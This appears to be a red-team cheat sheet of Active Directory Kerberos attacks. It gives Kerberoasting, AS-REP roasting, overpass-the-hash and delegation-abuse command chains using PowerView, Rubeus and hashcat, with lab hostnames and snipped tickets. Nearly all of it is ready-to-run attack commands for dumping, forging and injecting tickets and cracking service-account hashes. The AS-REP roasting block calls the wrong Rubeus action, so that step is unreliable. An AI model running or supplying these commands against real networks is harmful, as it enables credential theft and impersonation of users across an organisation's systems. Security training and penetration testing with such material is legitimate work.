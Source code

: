 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
Rubeus kerberoast /outfile:hashes.asreproast
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
Rubeus kerberoast format:hashcat /outfile:hashes.asreproast
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
Rubeus triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
PowerShell Get-DomainComputer -Unconstrained -Properties DnsHostName
execute-assembly C:\Users\Public\Rubeus.exe triage
Rubeus dump /luid:0x1b37e  
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]

```
```
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1f5d5  
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x686cf9 /ticket:
```

### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
powershell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo 
powershell Get-DomainComputer -TrustedToAuth | select -exp dnshostname 
Rubeus dump /service:krbtgt
Rubeus s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x239b995 /ticket:[...snip...]
ImpersonateProcess 3420
ls \\fs-1.cyberbotic.io\c$
```


